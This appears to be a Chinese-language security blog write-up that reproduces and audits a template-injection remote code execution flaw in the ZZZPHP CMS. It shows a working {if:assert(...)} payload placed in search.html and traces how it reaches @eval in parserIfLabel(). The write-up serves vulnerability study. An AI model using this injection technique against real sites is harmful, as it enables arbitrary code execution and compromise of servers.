

### 安装时候的坑

安装时会提示/config/zzz_config.php 12行有语法错误，注释掉就好了，不然安装会出现问题


### 漏洞复现

修改/template/pc/cn2016/html/search.html的文件内容为下面的代码

```php
{if:assert($_request[phpinfo()])}phpinfo();{end if}
```


访问http://127.0.0.1/zzzphp/search/


### 审计开始

全局搜索关键字@eval，定位到/inc/zzz_template.php文件，该处为ParserTemplate类的parserIfLabel()方法


找哪里实例化了ParserTemplate类，/inc/zzz_client.php实例化了该类


/search下的index.php包含了/inc/zzz_client.php


为了方便我们做后续的分析，我们在/inc/zzz_template.php里面的parserIfLabel()方法中打印一下$matches的值

```php
public function parserIfLabel($zcontent)
{
    $pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
    if (preg_match_all($pattern, $zcontent, $matches)) {
        var_dump($matches);  // 打印$matches
        ...
    }
    return $zcontent;
}
```


打印出来的$matches的值是一个数组




随后进入循环，在循环中，会对$ifstr进行复制和替换字符的操作，先看一下赋值语句，也就是$ifstr = $matches\[1][0]，即$ifstr = assert($_request[phpinfo()])}phpinfo();

```php
$ifstr = $matches[1][$i];
```


继续跟进cleft()函数，该函数为自定义函数，函数功能：对传入的字符串进行去空格操作，然后截取第一个字符

```php
function cleft( $str, $start = 0, $num = 1 ) {
	$var = trim( $str );
	$result = substr( $var, $start, $num );
	return $result;
}
```


后面的替换就跳过了，因为替换对的内容$ifstr里面是没有的


所以，代入$ifstr值后，@eval代码为如下结果，可执行phpinfo()命令（PS：在网页下创建/zzzphp.php文件进行访问，可以显示phpinfo界面）

```php
@eval( 'if(assert($_request[phpinfo()])){$flag="if";}else{$flag="else";}' );
```


### 参考

https://cloud.tencent.com/developer/article/1605191

https://www.cnblogs.com/-qing-/p/13513625.html